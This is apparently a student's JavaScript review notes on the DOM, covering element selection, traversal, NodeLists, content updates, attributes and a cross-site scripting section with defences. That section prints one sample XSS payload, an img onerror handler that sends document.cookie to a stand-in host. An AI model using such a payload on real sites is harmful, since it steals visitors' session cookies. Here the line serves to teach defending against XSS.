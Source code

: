 # [JS review](Review/Readme.md)

## DOCUMENT OBJECT MODEL (DOM)

### [_[028]_](Chapter_05/028_DOM_Tree_web_page_model/Readme.md) DOM TREE WEB PAGE MODEL:

Four types of nodes:

1. `Document node`
2. `Element node`
3. `Attribute node`
4. `Text node`

#### Working with the DOM tree (IN GENERAL):

A- Locate the node that represents the element you want to work with.
B- Use its text content, child elements, and attributes.

#### A- Accessing The Element:

- By selecting an individual element.
- By selecting multiple elements (Nodelists)
- Traversing between element nodes.

| Selecting individual element            | Selecting multiple element             | Traversing between elements     |
| --------------------------------------- | -------------------------------------- | ------------------------------- |
| ![individual element](./individual.png) | ![multiple](./multiple.png)            | ![traversing](./traversing.png) |
| `getElementById('ID_NAME')`             | `getElementsByClassName('CLASS_NAME')` | `parentNode`                    |
| `querySelector('CSS_SELECTOR')`         | `getElementsByTagName(HTML_TAG_NAME')` | `previousSibling / nextSibling` |
|                                         | `querySelectorAll('CSS_SELECTOR')`     | `firstChild / lastChild`        |

### B. Working with those Elements:

| Access / Update text nodes                                                        | Work with HTML content                       | Access / Update attribute values   |
| --------------------------------------------------------------------------------- | -------------------------------------------- | ---------------------------------- |
| ![element text](./element_text.png)                                               | ![html content](./html_content.png)          | ![attribute](./attribute.png)      |
| 1. Select the \<li> element.                                                      | `innerHTML` Working with HTML inner elements | `ELEMENT.className` / `ELEMENT.id` |
| 2. Use the `firstChild` property to get the text node                             | `textContent` Only with text content         |                                    |
| 3. Use the text node's only property `nodeValue` to get the text from the element |                                              |                                    |

#### Caching DOM queries

![Caching](../../../Chapter_05/028_DOM_Tree_web_page_model/caching_element.png)

### [_[029]_](Chapter_05/029_Accessing_elements/Readme.md) ACCESSING ELEMENTS:

![get by id](../../../Chapter_05/029_Accessing_elements/get_by_id.png)
![query selector](../../../Chapter_05/029_Accessing_elements/query_selector.png)
![getElementsByClassName](../../../Chapter_05/029_Accessing_elements/query_selector.png)
![getElementsByTagName](../../../Chapter_05/029_Accessing_elements/getElementsByClassName.png)
![querySelectorAll](../../../Chapter_05/029_Accessing_elements/getElementsByTagName.png)

#### NODELISTS: Dom queries that return more than one element:

1. When a DOM query returns a Nodelist, you may want to:

   - Select one element from the NodeList.
   - Loop through each item in the Nodelist and perform the same statements on each of the element nodes.

2. Like any other object, a Nodelist has properties and methods, notably:
   - The `length` property tells you how many it items are in the Nodelist.
   - The `item()` method returns a specific node from the Nodelist when you tell it the index number of the item t hat you want (in the parentheses).

#### Selecting an element from Nodelist

There are two ways to select element from NodeList:

1. Using `item()` method
2. Array syntax.

Then you can work on that specific node using properties and methods are related to the DOM element node.

### [_[030]_](Chapter_05/030_Repeating_actions_for_an_entire_nodelist/Readme.md) REPEATING ACTIONS FOR AN ENTIRE NODELIST:

![repeating_action_for_nodelist](../../../Chapter_05/030_Repeating_actions_for_an_entire_nodelist/repeating_action_for_nodelist.png)

### [_[031]_](Chapter_05/031_Traversubg_the_dom/Readme.md) TRAVERSING THE DOM:

- `parentNode` to get the container element.
- `previousSibling`, `nextSibling` to get previous or next element of according to the current element.
- `firstChild`, `lastChild` to get the first or last element inside the container of elements.

![traversing](../../../Chapter_05/031_Traversubg_the_dom/traversing.png)

#### Apply previous & next sibling script

![previous&next](../../../Chapter_05/031_Traversubg_the_dom/previous&next.png)

#### Apply first & last child script

![first&last](../../../Chapter_05/031_Traversubg_the_dom/first&last.png)

### [_[032]_](Chapter_05/032_get_update_element_content/Readme.md) HOW TO GET/UPDATE ELEMENT CONTENT:

- `textContent` no effected by CSS.
- `innerText` effected by CSS.

### [_[034]_](Chapter_05/033_Adding_removing_html_content/Readme.md) ADDING OR REMOVING HTML CONTENT:

- `innerHTML` not secure but fast.
- `DOM manipulation` secure but not fast.

#### Removing HTML element via DOM manipulation:

Removing will go through three steps:

1. Store the element that you want to remove in a variable (By the same way of selecting elements).
2. Store the parent of that element in a variable.
3. Remove the element that you have stored in the first step with the following `removeChild(STORED_ELEMENT_THAT_YOU_WANT_TO_REMOVE)` method.

```js
// Store the element to be removed in a variable.
var removeEl = document.getElementsByTagName("li")[3];

// Find the element which contains the element to be removed.
var containerEl = document.getElementsByTagName("ul")[0];

// Remove the element.
containerEl.removeChild(removeEl);
```

### [_[035]_](Chapter_05/034_Cross_site_scripting_XSS/Readme.md) CROSS SITE SCRIPTING ATTACKS (XSS):

#### Cross site scripting attacks (XSS)

```html
<img
  src="http://nofile"
  onerror="adr='http://example.com/xss.php?'+ encodeURIComponent(document.cookie)"
/>
```

#### Defending aginst Cross-Site Scripting attack:

![xss](../../../Chapter_05/034_Cross_site_scripting_XSS/defending_xss.png)

1. Only let visitors input the kind of characters they need when supply information. This is known as `validation`. Do not allow untrusted users to submit HTML markup or JavaScript (As Front-End part).
2. Double-check validation on the server before storing it in database. This is important because user can bypass validation in the front-end.
3. Database may safely take XSS code script. This is because database is not processing the code but more that storing it only.

**Escaping data coming from the server & database**

4. As your data leaves the database, all potentially dangerous characters should be escaped.
5. Make sure that you are only inserting content generated by the users into certain parts of the template file.
6. Do not create DOM fragments containing HTML from untrusted sources. It should be added as text once it has been escaped.

### [_[036]_](Chapter_05/035_working_with_attribute_nodes/Readme.md) WORKING WITH ATTRIBUTE NODES:

![getAttribute](../../../Chapter_05/035_working_with_attribute_nodes/working_with_attributes.png)

| Method              | Description                                      |
| ------------------- | ------------------------------------------------ |
| `getAttribute()`    | Get the value if an attribute                    |
| `hasAttribute()`    | Checks if element node has a specified attribute |
| `setAttribute()`    | Sets the value if an attribute                   |
| `removeAttribute()` | Removes an attribute from an element node        |

| Property    | Description                               |
| ----------- | ----------------------------------------- |
| `className` | Gets the value of the **class** attribute |
| `id`        | Gets the value of the **id** attribute    |
| etc..       |                                           |

### [_[036]_](Chapter_05/036_examining_the_dom_in_chrome/Readme.md) EXAMINING THE DOM IN CHROME

![chrome](../../../Chapter_05/036_examining_the_dom_in_chrome/chrome_devtool.png)

![end](./end-review.gif)
